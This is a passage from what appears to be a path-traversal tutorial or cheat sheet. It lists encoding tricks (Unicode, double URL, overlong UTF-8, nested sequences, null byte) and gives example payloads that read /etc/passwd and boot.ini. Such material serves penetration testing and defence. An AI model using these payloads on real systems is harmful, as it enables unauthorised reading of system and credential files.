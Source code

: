#### **2. Unicode Encoding (16-bit)**

* Dot = `%u002e`
* Slash = `%u2215`
* Backslash = `%u2216`

Example:

```
file=%u002e%u002e%u2215etc%u2215passwd
```

#### **3. Double URL Encoding**

* Dot = `%252e`
* Slash = `%252f`

Example:

```
file=%252e%252e%252fetc%252fpasswd
```

#### **4. Overlong UTF-8 Encoding**

* Dot = `%c0%2e`, `%e0%40%ae`, etc.
* Slash = `%c0%af`, `%c0%2f`, etc.

Example:

```
file=%c0%ae%c0%ae%c0%afetc%c0%afpasswd
```

#### **5. Nested Traversal Tricks**

If the filter removes `../` but doesn’t do it recursively, try:

```
....//
....\\
..../\
```

---

### 🔹 **Step 4: Bypass Filters Related to File Types and Paths**

#### **1. Null Byte Injection**

Some filters check file extensions (e.g., `.jpg`) and block anything else. Try injecting a null byte `%00` to terminate the string early:

```
file=../../../../boot.ini%00.jpg
```

This works when the app validates using a high-level language (e.g., Java, PHP) but reads files using a native API that stops at null bytes.
